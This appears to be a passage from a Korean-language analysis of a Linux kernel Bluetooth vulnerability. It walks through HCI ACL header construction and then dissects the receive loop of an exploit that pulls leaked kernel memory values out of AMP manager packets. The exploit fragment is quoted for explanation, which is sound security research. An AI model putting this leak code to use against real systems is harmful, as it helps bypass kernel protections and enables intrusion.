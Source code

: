 ```c++
  switch (hdev->dev_type) {
	case HCI_PRIMARY:
		hci_add_acl_hdr(skb, conn->handle, flags);
		break;
	case HCI_AMP: // 이 case문에 걸림
		hci_add_acl_hdr(skb, chan->handle, flags);
		break;
	default:
		bt_dev_err(hdev, "unknown dev_type %d", hdev->dev_type);
		return;
	}

	list = skb_shinfo(skb)->frag_list; // 패킷 전송을 위한 스케쥴러 등록

	// ...
}
```
`hci_queue_acl()` 함수는 패킷의 type을 나타내는 영역에 `HCI_ACLDATA_PKT` 데이터를 삽입하고, `hci_add_acl_hdr()` 함수를 통해 ACL Header 부분을 채운다. 헤더를 추가하는 부분은 아래와 같다.
```c++
static void hci_add_acl_hdr(struct sk_buff *skb, __u16 handle, __u16 flags)
{
	// ...

	hdr->handle = cpu_to_le16(hci_handle_pack(handle, flags));
	hdr->dlen   = cpu_to_le16(len);
}
```
이후 실제로 패킷을 전송한다. 최종적으로 보내는 패킷의 모습은 다음과 같다.

![image](https://user-images.githubusercontent.com/44149738/133655332-1c17dcc1-ef59-461b-a2de-6e28fdc6f32c.png)


## Analysis #6 응답 데이터 수신
아래는 exploit code에 나와있는 수신부 코드이다.
```c++
for (int i = 0; i < 64; i++) {
  char buf[1024] = {0};
  size_t buf_size = read(hci_socket, buf, sizeof(buf));
  if (buf_size > 0 && buf[0] == HCI_ACLDATA_PKT) {
    l2cap_hdr *l2_hdr = (l2cap_hdr *)(buf + 5);
    if (btohs(l2_hdr->cid) == AMP_MGR_CID) {
      uint64_t leak1 = *(uint64_t *)(buf + 13) & ~0xffff;
      uint64_t leak2 = *(uint64_t *)(buf + 21);
      uint16_t leak3 = *(uint64_t *)(buf + 29);
      printf("[+] Leaked: %lx, %lx, %x\n", leak1, leak2, leak3);
      break;
    }
  }
}
```
주요 line 위주로 분석해보자.
```c++
if (buf_size > 0 && buf[0] == HCI_ACLDATA_PKT)
```
`buf[0]`가 `HCI_ACLDATA_PKT`임을 확인하여 위에서 분석한 ACL 응답 로직을 통해 송신된 패킷인지 확인할 수 있다.
```c++
l2cap_hdr *l2_hdr = (l2cap_hdr *)(buf + 5);
```
`HCI_ACLDATA_PKT`가 맞다면 우리가 알고있는 구조로 데이터가 수신되었을 것이기 때문에 `l2cap_hdr` 부분은 `type`과 `hci_acl_hdr` 구조체를 건너뛴 `buf + 5`에 위치하게 될 것이다.
```c++
uint64_t leak1 = *(uint64_t *)(buf + 13) & ~0xffff;
uint64_t leak2 = *(uint64_t *)(buf + 21);
```